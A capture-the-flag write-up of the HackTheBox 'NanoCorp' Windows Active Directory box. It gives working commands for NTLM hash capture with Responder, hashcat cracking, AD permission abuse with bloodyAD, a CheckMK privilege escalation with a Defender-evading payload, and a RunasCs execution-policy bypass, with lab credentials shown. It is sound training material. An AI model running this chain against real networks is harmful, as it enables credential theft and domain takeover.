



# NanoCorp - HackTheBox Writeup
[Here are the notes I took while solving](./Walkthrough)

## Introduction

This is my first "Hard" rated box on HackTheBox, and what a journey it was! NanoCorp is a Windows Active Directory machine that threw several curveballs my way. I spent way more time than I'd like to admit on some parts, but I learned a ton in the process. Let's dive in.

## Reconnaissance

As always, we start with nmap:

```bash
nmap -p- -sV 10.10.11.93
```

```
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/wsmans?
9389/tcp  open  mc-nmf            .NET Message Framing
...
Service Info: Hosts: nanocorp.htb, DC01; OS: Windows
```

Classic Windows AD setup. We've got DNS, HTTP, Kerberos, LDAP, SMB, and WinRM over SSL. The domain is `nanocorp.htb` and the DC is `DC01`.

## Web Enumeration & Initial Foothold

The homepage contains a contact form and a link to a subdomain: `http://hire.nanocorp.htb/`

This subdomain has an interesting feature: a form where you can upload a ZIP file that will be "analyzed" (probably extracted) by the server. My first instinct was to try CVE-2025-11001 - a path traversal vulnerability in ZIP extraction. The idea was to extract a PHP reverse shell into the web directory. I knew PHP was running from the headers (`PHP/8.2.12`), but I couldn't figure out the exact path on this Windows server, and my attempts failed.

### The Right CVE: NTLM Hash Theft

After hitting a wall, I checked the hint channel which mentioned "recovering a hash." That clicked immediately - NTLM hash theft! A quick Google search for "NTLM hash from ZIP extraction" led me to **CVE-2025-24054**, a relatively recent vulnerability.

I set up Responder and uploaded a malicious ZIP:

```bash
sudo responder -I tun0
```

And boom:

```
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:44bfeb8bfb04df8d:A0119BB00B1860C4E3238E314BD77BE3:...
```

Time to crack it with hashcat:

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

**Credentials obtained:** `web_svc:dksehdgh712!@#`

## Privilege Escalation: web_svc → monitoring_svc

With valid domain credentials, I ran BloodHound to map out potential attack paths:

```bash
bloodhound-python -u 'web_svc' -p 'dksehdgh712!@#' -d nanocorp.htb -dc DC01.nanocorp.htb -c all
```



The path was clear: `web_svc` can add itself to `IT_SUPPORT` (AddSelf), `IT_SUPPORT` can change the password of `monitoring_svc`, and `monitoring_svc` has WinRM access.

Let's chain it:

```bash
# Add web_svc to IT_SUPPORT
bloodyAD -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' --dc-ip '10.10.11.93' add groupMember 'it_support' 'web_svc'

# Change monitoring_svc password
bloodyAD -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' --dc-ip '10.10.11.93' set password 'monitoring_svc' 'Password123!'
```

"Password changed successfully" - beautiful.

### The WinRM Nightmare

Now here's where I lost almost A FULL WEEK. I could authenticate, I had the right credentials, but I just couldn't get a proper WinRM session. After countless attempts with evil-winrm, impacket, and various other tools, I finally found [winrmexec](https://github.com/ozelis/winrmexec) that worked:

```bash
sudo ntpdate -bu nanocorp.htb
KRB5CCNAME='../monitoring_svc.ccache' python3 ./evil_winrmexec.py nanocorp.htb/'monitoring_svc':'Password123!'@DC01.nanocorp.htb -ssl -k -no-pass
```

FINALLY! User flag acquired!



## The DFSCoerce Rabbit Hole

The hint mentioned "NTLM coercion" so I tested for DFSCoerce:

```bash
crackmapexec smb nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -M dfscoerce
```

```
DFSCOERC... nanocorp.htb    445    DC01             VULNERABLE
```

I spent a lot of time exploring CVE-2025-33073 and NTLM relay attacks. I even captured the DC's hash:

```
[SMB] NTLMv2-SSP Username : NANOCORP\DC01$
```

But SMB signing was enforced (`SMB signing required: true`), and I couldn't add DNS records either. This path seemed patched since the box was released. While frustrating, I learned a lot about NTLM relay attacks and modern mitigations, so not all was lost.

## Root: CheckMK Local Privilege Escalation

Desperate for another avenue, I decided to enumerate more thoroughly on the box. Looking through `C:\ProgramData`:

```powershell
PS C:\ProgramData\checkmk\agent\bin> ./cmk-agent-ctl.exe
cmk-agent-ctl 2.1.0p10
```

CheckMK! A quick search revealed **CVE-2025-32919** - a local privilege escalation via insecure temporary directory in the CheckMK Windows Agent affecting version 2.1.0.

The vulnerability is detailed in this [SEC Consult advisory](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-writable-files-in-checkmk-agent/). The idea is to race the MSI repair process by pre-populating the temp directory with malicious executables.

### Building the Payload

Windows Defender blocked msfvenom payloads, so I compiled my own:

```c
// exploit.c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("whoami > C:\\Windows\\Temp\\proof.txt");
    return 0;
}
```

```bash
x86_64-w64-mingw32-gcc exploit.c -o challenge.exe
```

Uploaded and tested - it works:

```powershell
PS C:\Users\monitoring_svc\Documents> ./challenge.exe
PS C:\Users\monitoring_svc\Documents> cat C://Windows/TEMP/proof.txt
nanocorp\monitoring_svc
```

### Finding the MSI Installer

```powershell
PS C:\Windows\Installer> Select-String -Path ./1e6f2.msi -Pattern "checkmk" -SimpleMatch
```

Found it at `C:\Windows\Installer\1e6f2.msi`.

### The Final Push

After many more hours of troubleshooting, I discovered that we can display the logs of the repair tool,:

```powershell
msiexec.exe /fa C:\Windows\Installer\1e6f2.msi /qn /l*vx C:\Windows\Temp\cmk_repair.log
```

and it showed that the software didn't work with the monitoring_svc account, but worked with web_svc

Furthermore the logs showed: `Property(S): TempFolder = C:\Users\web_svc\AppData\Local\Temp\`

I needed to run this as `web_svc` with the right PowerShell flags. Using RunasCs:

```powershell
./RunasCs.exe 'web_svc' 'dksehdgh712!@#' powershell.exe -NoProfile -ExecutionPolicy Bypass -File .\exploit.ps1
```

The `-NoProfile` and `-ExecutionPolicy Bypass` flags were the key! Without them, PowerShell was loading a profile that changed the temp directory path.



## Conclusion

This box was a rollercoaster. I lost considerable time on the WinRM connection issues (almost a week!), the DFSCoerce rabbit hole that seems patched since box release, and PowerShell execution policy quirks.

But I'm proud of nailing the BloodHound path exploitation quickly, identifying the CheckMK vulnerability independently after the hint, building my own exploit payload to bypass Defender, and finally completing my first "Hard" rated box!

The biggest lesson? On Windows, always consider execution policies and profile loading. Those `-NoProfile -ExecutionPolicy Bypass` flags were the difference between success and endless frustration.

**Tools Used:** nmap, Responder, hashcat, BloodHound, bloodyAD, [winrmexec](https://github.com/ozelis/winrmexec), crackmapexec, RunasCs, Custom compiled C payload

